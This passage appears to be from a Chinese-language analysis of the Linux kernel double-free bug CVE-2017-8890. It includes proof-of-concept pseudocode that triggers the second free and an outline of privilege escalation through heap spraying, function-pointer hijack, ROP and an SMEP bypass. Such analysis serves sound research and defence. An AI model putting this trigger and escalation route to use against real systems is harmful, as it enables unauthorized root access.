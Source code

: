 内核态：

```c
sock_release() ->  inet_release() -> tcp_close() -> ip_mc_drop_socket()
```

知道了漏洞产生的原因，漏洞在哪里产生，那么我们可以构造如下 `poc`

**poc 伪代码**

```c
sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
setsockopt(server_sockfd, SOL_IP, MCAST_JOIN_GROUP, &group, sizeof(group);
bind(sockfd, xxx, xxx);
listen(sockfd, xxx);
accept_sockfd = accept(sockfd, (struct sockaddr*)&accept1_si, sizeof(accept1_si));
close(accept_sockfd1);	// first free
sleep(xxx);
close(accept_sockfd2);	// second free
```

# Summary

网上暂时没有搜到完全有效的 exploit，但有一些讲解利用思路的文章以及在保护机制开启不完全下利用的文章，
经过一番尝试，发现该漏洞最终无法在 linux 上单独完成提权，缺少 kalsr 的绕过。

总的思路就是要在两次释放中间堆喷覆盖 `ip_mc_list` 结构体，该结构体中包含一个 `rcu_head` 对象，
而该对象刚好包含一个函数指针，从而劫持eip，之后可以直接 rop 提权，也可以先绕过 smep 执行 shellcode。

# Reference

- [CVE-2017-8890漏洞分析与利用（Root Android 7.x）](http://www.freebuf.com/articles/terminal/160041.html)

- [CVE-2017-8890 深度分析](https://bbs.pediy.com/thread-226057.htm)

- [利用CVE-2017-8890实现linux内核提权: ret2usr](https://xz.aliyun.com/t/2383)

- [CVE-2017-8890调试笔记](http://eternalsakura13.com/2018/04/14/cve-2017-8890/)

- [CVE-2017-8890 分析](http://www.luojiaqs.top/2018/06/21/2018-06-21-CVE-2017-8890-ret2user/)